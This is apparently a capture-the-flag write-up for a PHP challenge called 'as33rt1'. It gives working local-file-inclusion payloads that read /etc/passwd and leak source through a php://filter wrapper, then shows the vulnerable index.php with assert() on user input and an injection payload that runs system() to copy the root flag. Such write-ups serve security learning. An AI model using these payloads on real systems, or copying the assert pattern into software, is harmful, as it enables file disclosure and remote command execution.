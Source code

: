 # as33rt1

![[Pasted image 20210328000729.png]]


## View Source


![[Pasted image 20210328000827.png]]


http://docker.h4x0rbox.com:2080/?page=signup


## LFI
#### Payload = ```/etc/passwd ```
http://docker.h4x0rbox.com:2080/?page=/etc/passwd

![[Pasted image 20210328001112.png]]


## LFI using php wrapper

### Payload = ``` php://FilTer/convert.base64-encode/resource=index ```

![[Pasted image 20210328001455.png]]


## Base64 decode

####  Index.php

```php

<?php
if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "login";
}
$file = $page . ".php";
if(assert("strpos('$file', '..') === false")) {
	include $file;
} else {
	die('<b>Sorry script kiddie you should try harder!</b><br/><div style="width:100%;height:0;padding-bottom:42%;position:relative;"><iframe src="https://giphy.com/embed/njYrp176NQsHS" width="100%" height="100%" style="position:absolute" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div>');
}
?>


```

## Exploiting

#### Payload = ``` c','')==false&system('cat /root/flag.txt > xxx')&strpos('1   ```

![[Pasted image 20210328003106.png]]


http://docker.h4x0rbox.com:2080/xxx


![[Pasted image 20210328002748.png]]


### Flag = ``` SL7{0cba7ef0c9104cc90978b1cd1bf816cd4a1}  ```

